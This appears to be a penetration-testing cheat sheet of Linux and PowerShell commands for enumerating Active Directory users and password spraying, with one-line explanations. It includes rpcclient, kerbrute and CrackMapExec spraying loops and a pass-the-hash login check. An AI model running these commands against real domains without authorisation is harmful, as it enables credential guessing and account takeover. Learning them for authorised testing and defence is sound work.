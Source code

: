 ```
rpcclient -U "" -N <ip> rpcclient 
$> enumdomuser 	
```
> Uses rpcclient to discover user accounts in a target Windows domain from a Linux-based host.

```
crackmapexec smb <ip> --users 
```
> Uses CrackMapExec to discover users (--users) in a target Windows domain from a Linux-based host.

```
ldapsearch -h <ip> -x -b "<>" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "
```
> Uses ldapsearch to discover users in a target Windows doman, then filters the output using grep to show only the sAMAccountName from a Linux-based host.

```
./windapsearch.py --dc-ip <ip> -u "" -U**
```
> Uses the python tool windapsearch.py to discover users in a target Windows domain from a Linux-based host.

```
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" <ip> | grep Authority; done
``` 	
> Bash one-liner used to perform a password spraying attack using rpcclient and a list of users (valid_users.txt) from a Linux-based host. It also filters out failed attempts to make the output cleaner.

```
kerbrute passwordspray -d <domain> --dc <ip> valid_users.txt Welcome1
```
> Uses kerbrute and a list of users (valid_users.txt) to perform a password spraying attack against a target Windows domain from a Linux-based host.

```
sudo crackmapexec smb <ip> -u valid_users.txt -p Password123 | grep +

```
> Uses CrackMapExec and a list of users (valid_users.txt) to perform a password spraying attack against a target Windows domain from a Linux-based host. It also filters out logon failures using grep.

```
sudo crackmapexec smb <ip> -u <username> -p <password> 
```
> Uses CrackMapExec to validate a set of credentials from a Linux-based host.

```
sudo crackmapexec smb --local-auth <ip/cidr> -u administrator -H <hash> | grep +
```
> Uses CrackMapExec and the --local-auth flag to ensure only one login attempt is performed from a Linux-based host. This is to ensure accounts are not locked out by enforced password policies. It also filters out logon failures using grep.

```
Import-Module .\DomainPasswordSpray.ps1
```
> Used to import the PowerShell-based tool DomainPasswordSpray.ps1 from a Windows-based host.
